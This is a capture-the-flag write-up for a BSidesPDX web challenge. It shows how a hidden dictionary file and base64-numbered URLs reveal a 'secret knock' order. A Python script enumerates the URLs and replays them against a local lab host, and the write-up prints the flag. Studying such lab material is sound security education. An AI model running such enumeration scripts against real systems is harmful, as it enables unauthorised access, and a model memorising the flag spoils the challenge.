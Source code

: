 #Web 100 Solution

##Solution


Upon first visiting the page, I'm greeted with the message:
```
Go away

I have not heard the secret knock yet
```

Well that seems friendly, doesn't it? Taking a look into the page source, it seems there's an html comment
```
<!doctype html>
<title>Knock knock knock....</title>
<h1>Go away</h1>
<p>I have not heard the secret knock yet</p>

<!-- /static/dict.txt -->
```

/static/dict.txt? Navigating to that URL, it's a 4000 line long dictionary file with a bunch of words in no particular order. Considering the message from before about not hearing the secret knock, we might need to append some of these words to the URL in some particular order. Let's try visiting some of these URLs and see what happens.

The first few URLS (e.g. /concerned, /learn, /person, and /scared) all return blank pages. However, once we hit /holistic, we get some text back:
```
MTk4
```
Which is a bit strange. After hitting enough of these URLs, it becomes clear this text is actually base64 encoded. The MTk4 decodes to 198. After hitting all the URLs in the dictionary, there are base64 encoded strings for all values from 1 to 1000.

At this point, let's try hitting all the URLs in the correct order. Here's a quick python script to grab the dictionary, parse it, figure out the ordering of the URLs, and then hit the URLs in the correct order:

```
import requests
import base64
sess = requests.session()

URL="127.0.0.1"
PORT="80"

r = sess.get("http://%s:%s/static/dict.txt" % (URL, PORT))

ordering = {}

for line in r.text.split('\n'):
    line = line.strip()
    if len(line) == 0:
        pass

    test = sess.get("http://%s:%s/%s" % (URL, PORT, line))
    if len(test.text) > 0:
        try:
            num = base64.b64decode(test.text)
            ordering[int(num)] = line
        except:
            pass

for i in range(1, 1001):
    sess.get("http://%s:%s/%s" % (URL, PORT, ordering[i]))

print sess.get("http://%s:%s" % (URL, PORT)).text
```

After hitting all the URLs in the correct order, the script hits the home page once again and we get the flag!

```
<!doctype html>
<title>Who's there?</title>
<h1>BSidesPDX{B3773r_th4n_d34th_By_1000_cu75}</h1>
```